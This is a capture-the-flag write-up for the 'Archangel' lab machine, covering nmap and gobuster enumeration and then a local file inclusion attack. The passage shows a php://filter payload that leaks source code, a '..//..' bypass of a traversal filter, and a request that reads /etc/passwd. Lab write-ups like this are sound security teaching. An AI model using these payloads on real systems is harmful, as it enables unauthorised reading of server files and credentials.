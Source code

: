 # Archangel

## Enumeration

### NMAP

The first step to understanding what we are attacking is to determine what ports the target has open and see what service we can find.  

Command:

```bash
nmap -A -p- -oN nmap/all_port_aggressive $TARGET
```

Results:

```bash
Nmap scan report for 10.10.227.48
Host is up (0.082s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   18.25 ms 10.6.0.1
2   ... 3
4   82.34 ms 10.10.227.48

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 288.32 seconds
```

### Website (Manual)

Not everything about enumeration can be automated, so we should look at the site being hosted by the target and see if we can discover any more information. One thing that stands out almost immediately is the domain mentioned in the `Send us a mail:` prompt at the top of the page. We can add this to `/etc/hosts` to see if there is virtual hosting being done on the target. If there is, then adding this to the `/etc/hosts` file and navigating to `http://mafialive.thm` will bring us to a different site.

![WaveFireSite](../media/pictures/archangel_wavefire_site.png)

When we navigate to `mafialive.thm` we are greeted with a basic HTML page that tells us it is under development and gives us a flag.

![MafialiveMain](../media/pictures/archangel_underdev_main.png)

Now we can begin to enumerate this site for hidden directories.

Command:

```bash
gobuster dir -u http://mafialive.thm -w <wordlist> -t 50 -x php -o mafialive_main
```

Output:

```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://mafialive.thm
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-directories-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/12/16 20:05:53 Starting gobuster in directory enumeration mode
===============================================================
/test.php             (Status: 200) [Size: 286]
/server-status        (Status: 403) [Size: 278]
                                               
===============================================================
2022/12/16 20:06:52 Finished
===============================================================
```

## Local File Inclusion (LFI)

We have discovered a `test.php` page and nothing else. Taking a look at this page, there is a simple button on it that displays a phrase when we click it. Looking at the URL,  however, discloses a parameter `view` whose value is a filepath.

![MafialiveTest1](../media/pictures/archangel_underdev_test1.png)

Let's see if we can get the source for the `test.php` page by replacing `mrrobot.php` with `test.php`. A basic replace didn't work, so we can try using a PHP filter to convert it to base64 and smuggle it out. By replacing `/var/www/html/development_testing/mrrobot.php` with `php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php` we can get the base64 encoded source code returned to us. 

Source:

```php
<?php
//FLAG: <REDACTED FOR WRITEUP>
function containsStr($str, $substr) {
	return strpos($str, $substr) !== false;
}
if(isset($_GET["view"])){
	if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
		include $_GET['view'];
	}else{
		echo 'Sorry, Thats not allowed';
	}
}
?>
```

The part we are intersted in is the `<?php ... ?>` piece where the hidden PHP code is written. This shows us a few interesting things we can use to our advantage: 1) `/var/www/html/development_testing` must be in the `view` parameter and 2) the path cannot contain `../..`. The simple filter imposed by the code is easy to get around by adding an additional `/` to `../..`, turning it into `..//..`. Next we can perform a path traversal to any location the user running the website has access to by walking up the directory tree starting at `/var/www/html/development_testing` using `..//..`. We can test this to make sure our theory is correct by targeting `?view=/var/www/html/development_testing/..//..//..//..//..//..//../etc/passwd`.

![MafialiveTestLFIConfirm](../media/pictures/archangel_underdev_test2.png)

When we attempt the LFI attack, we successfully get back the `/etc/passwd` file. This confirms our theory. 
